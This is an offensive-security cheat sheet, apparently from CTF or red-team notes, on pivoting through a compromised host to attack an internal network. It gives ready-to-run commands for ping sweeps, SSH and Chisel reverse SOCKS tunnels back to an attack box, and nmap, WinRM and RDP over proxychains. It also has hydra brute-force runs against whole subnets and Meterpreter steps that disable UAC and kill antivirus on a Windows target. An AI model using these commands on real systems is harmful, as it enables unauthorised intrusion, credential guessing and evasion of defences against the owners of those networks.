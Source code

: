 # Scanning though a pivot    
## Contents    
- [Scanning though a pivot](#scanning-though-a-pivot)
  * [Contents](#contents)
  * [Subnet Enumeration Commands](#subnet-enumeration-commands)
  * [ProxyChains](#proxychains)
    + [SSH Dynamic Tunnels](#ssh-dynamic-tunnels)
    + [Chisel](#chisel)
    + [Nmap scan through a dynamic SOCKS proxy](#nmap-scan-through-a-dynamic-socks-proxy)
    + [Web access:](#web-access-)
    + [Use WinRM through proxychains](#use-winrm-through-proxychains)
    + [RDP through ProxyChains](#rdp-through-proxychains)
  * [Uploading Static Binaries](#uploading-static-binaries)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
### Brute Force a Service Through Proxychains    

    proxychains hydra 10.10.10.10 ssh -s 22 -L users.txt -P passwords.txt -t 4     
    proxychains hydra -L usernames -P passwords 10.10.10.0/24 ftp       #brute force a subnet   
    proxychains hydra -L users –P passwords <IP> mssql   #MSSQL    
## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
